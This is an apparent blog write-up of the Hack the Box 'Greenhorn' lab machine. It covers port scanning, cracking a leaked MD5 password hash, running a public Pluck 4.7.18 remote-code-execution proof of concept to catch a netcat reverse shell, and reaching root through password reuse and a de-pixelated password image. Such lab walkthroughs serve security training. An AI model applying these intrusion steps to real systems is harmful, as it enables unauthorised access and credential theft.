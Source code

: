 ```yaml
---
draft: false
title: "Hack the Box #6 - Greenhorn without Metasploit"
date: 2024-10-07
author: William
category:
  - Tech
tags:
  - Linux
  - Security
  - Hacking
description: Detailed Hack the Box Greenhorn write-up where I share the full process of enumeration, exploitation, and privilege escalation. From cracking MD5 hashes to leveraging a PoC for a reverse shell, and even using a de-pixelling tool for root access, this guide takes you through the challenges and solutions of this HTB box. Perfect for CTF enthusiasts looking for in-depth insights and a step-by-step breakdown of exploiting Greenhorn!
cover:
  image: GreenHorn.png
  alt: GreenHorn.png
---
```


I would be lying if I said I posted this Hack the Box Greenhorn writeup within the same week of me exploiting it. In truth life happened. I did a SANs and a couple of late nights out. But here it is, my greenhorn writeup. 

## Enumeration
Lets start as we always do after booting up the box and have a look at what ports are available to us with an nmap.
```bash
└─$ nmap -sV -p- 10.10.11.25 -oN nmap.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 22:55 BST
Nmap scan report for 10.10.11.25
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=9/19%Time=66EC9DF4%P=x86_64-pc-linux-gnu%r
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.25 seconds
```

Port 22 and 80 are pretty standard. SSH and a basic webserver. But what is this port 3000 you might ask?  Hitting port 3000 from the browser we are greeted with...
![Gitea](https://about.gitea.com/gitea-text.svg)
Gitea is a self-hosted GitHub which I have considered hosting myself from time to time. 
In poking around we find a repository on Gitea for a software called pluck. They were even kind enough to in include the version 4.7.18

Going to google and using my extensive searching knowledge by typing "pluck 4.7.18 Exploit poc Github" and we find this lovely [repo](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

Cool beans so we have an exploit but when looking at the exploit we need to authenticate for that.

Rummaging through the repo some more we find that MD5 hash is used to encrypt passwords, this is a very secure choice if you want to get pwned! These guys know what they are doing!!! And with a little bit more rummaging we find under the settings folder there is a file called pass.php with a suspiciously MD5 looking hash

Taking that badboy and throwing it into [crackstation.net](https://crackstation.net/), we have a match!!! `iloveyou1` awww i love you to greenhorn. Now that we have everything we need lets have a look at this pluck webserver running on port 80.

Navigating to the login page we only need to put in a password. Great with a quick `iloveyou1` we are logged in! Now we can leverage the sweet sweet remote code execution PoC we found earlier.

## Exploitation
Lets take a closer look at the script we have. It requires the following details to execute correctly

```bash
login_url = "http://<hostname>/login.php"
upload_url = "http://<hostname>/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "<password>","<username>": "","submit": "Log in"}
```

`Hostname` and `password` we already have. For the `username` we can inspect the login payload, either through developer tools or burp (Yes we are running everything though our burp proxy).
We get the user `bogus`

Customizing the payload inline with this information we prepare out netcat to listen for the call home. And after executing the script we get catch a reverse shell.

```bash
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.25] 44696
SOCKET: Shell has connected! PID: 84927
whoami
www-data
```

Boom. Looks like we are running the the www-data context but its something. Looking around the box we find two users `git` and `junior` git we get permission denied but junior!!!

```bash
ls /home/junior
Using OpenVAS.pdf
archivo.pdf
linpeas.sh
user.txt
```

Boys rocking linpeas like a pro! Saddly for user.txt we get permission denied. CAN YOU blame me... It was worth the try. We need to achieve persistence. SSH to the box fails, with junior being locked down with a public key.

Nothing much else of interest after poking around for a bit longer. I got to the point of insanity where I was trying to extract the .pdf files by writing my own custom HTTP server that would accept POST requests it dawned on me. What if...

```bash
su junior
Password: iloveyou1
whoami
junior

cat user.txt
============ USER_FLAG ============ 

```

![table_flip](https://i.giphy.com/sIE0hveuiwCNG.webp#center)
## Privilege Escalation 

After taking a break to sooth my stupidity, I come back to my computer ready for round 2. We can now look at the PDF files by hosting an http server on the box and pull the files to our kali box

```bash
python3 -m http.server

-------
└─$ wget <http://10.10.11.25:8080/Using\\> OpenVAS.pdf
```

Opening it we get this lovely document. I literally muttered you little bitch when I saw it.
![image.png](https://i.imgur.com/DqVqGGd.png)

WHO THE FUCK SCRAMBLES THIER PASSWORDS LIKE THIS! WHO IN THIER RIGHT MIND WILL DO THIS!!! 
It looks like some sort of image scrambling has taken place that we need to unscrable. After looking around we find this lovely repo that can help us out.

[https://github.com/spipm/Depix](https://github.com/spipm/Depix)

this will unpixulate the file

```bash
└─$ python depix.py -p ../pix.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 

```
Go from this
![image.png](https://i.imgur.com/sQ4XjKl.png)

 to this
![image.png](https://i.imgur.com/vAruc7U.png)

Now we follow the guide and use this for root access

```bash
└─$ ssh root@10.10.11.25  
root@10.10.11.25 password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

...

Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~#

root@greenhorn:~# cat root.txt 
============ROOT_FLAG============
```


And  like that we have root. YAY! 
To be honest not my favourite HTB CTF I have done. Getting a foot hold was fun, but the unscrambling of the password though cool just annoyed me. But anyway I'm going to go touch grass and oh here is the [proof of my accomplishment](https://www.hackthebox.com/achievement/machine/1695260/617). 

![Grass](https://i.giphy.com/phFw0JVlNfXCE.webp#center)